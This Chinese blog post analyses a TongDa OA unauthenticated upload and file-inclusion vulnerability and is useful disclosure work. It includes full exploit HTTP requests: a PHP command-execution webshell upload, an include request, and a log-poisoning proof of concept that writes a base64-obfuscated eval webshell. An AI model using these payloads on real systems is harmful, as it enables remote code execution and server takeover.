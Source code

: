 ```yaml
---
layout: post
title:  "通达OA文件包含漏洞"
categories: 漏洞分析
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA文件上传和文件包含漏洞分析文章。由于作者能力有限，文中定会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 01-漏洞概述

在2020年3月初的时候，有安全厂商发布公告称通达OA被入侵后被黑产利用。今日再来分析此漏洞的时候发现，其实和文件上传没关系，也根本不是任意文件上传漏洞。而是一个思路很好的文件包含漏洞。漏洞的触发条件是在无需登录的条件下上传一个jpg等其他图片格或其他文件格式的非PHP格式的文件即可，然后再利用文件包含漏洞去包含导致漏洞触发。漏洞问题的触发点在于文件包含。除了剪切图片操作之外，很难保证上传图片的内容安全。

影响版本：V11版、2017版、2016版、2015版、2013增强版、2013版（具体未实际测试）

1.文件上传的数据包：

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Content-Length: 658

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

2.文件包含数据包：

```
POST /mac/gateway.php HTTP/1.1
Host: 192.168.220.129
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

json={"url":"/general/../../attach/im/2006/2097931002.zip"}&cmd=whoami
```

## 02-漏洞分析

### 一、文件上传

- /ispirit/im/upload.php:5-13行。5行进行判断，变量P存在并不为空的话则执行6-10行代码。如果变量P不存在，或者是等于空的话。则执行else语句，包含auth.php。

  ```php
  if (isset($P) || ($P != "")) {
  	ob_start();
  	include_once "inc/session.php";
  	session_id($P);
  	session_start();
  	session_write_close();
  }
  else {
  	include_once "./auth.php";
  }
  ```

- ispirit\im\auth.php。查看auth.php代码，发现此文件作用为校验用户是否登录。所以如果P存在，并且不为空的话即可在非登录状态下进行上传。

  ```php
  include_once "inc/session.php";
  session_start();
  session_write_close();
  include_once "inc/conn.php";
  include_once "inc/utility.php";
  ob_start();
  if (!isset($_SESSION["LOGIN_USER_ID"]) || ($_SESSION["LOGIN_USER_ID"] == "") || !isset($_SESSION["LOGIN_UID"]) || ($_SESSION["LOGIN_UID"] == "")) {
  	sleep(1);
  	if (!isset($_SESSION["LOGIN_USER_ID"]) || ($_SESSION["LOGIN_USER_ID"] == "") || !isset($_SESSION["LOGIN_UID"]) || ($_SESSION["LOGIN_UID"] == "")) {
  		echo "-ERR " . _("用户未登陆");
  		exit();
  ```

### 二、文件包含

- /mac/gateway.php:41行。对url进行了包含处理。

  ```php
  	if ($url != "") {
  		if (substr($url, 0, 1) == "/") {
  			$url = substr($url, 1);
  		}
  		include_once $url;
  	}
  ```

- 

**思考：**其实这个地方除了可以通过文件上传之后进行包含之外，也可以通过包含其他文件进行利用，比如包含日志文件：

poc1：

```
GET /mac/gateway.php?json={}&aa=<?php @fputs(fopen(base64_decode('bG9zdC5waHA='),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydsb3N0d29sZiddKTs/Pg=='));?> HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USER_NAME_COOKIE=admin; SID_1=b51a8646; PHPSESSID=olai0tkt0oqhcblhha71f42q21; OA_USER_ID=admin
Upgrade-Insecure-Requests: 1
```

poc2：

```
POST /mac/gateway.php HTTP/1.1
Host: 192.168.220.129
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

json={"url":"../ispirit/../../nginx/logs/oa.access.log"}
```

执行完poc1和poc2之后，便会在mac目录下生成lost.php。

### 三、漏洞修复

- url参数禁止用户可控。
- 在路径中禁止出现./等字符。

## 03-参考链接

- http://www.0e0w.com
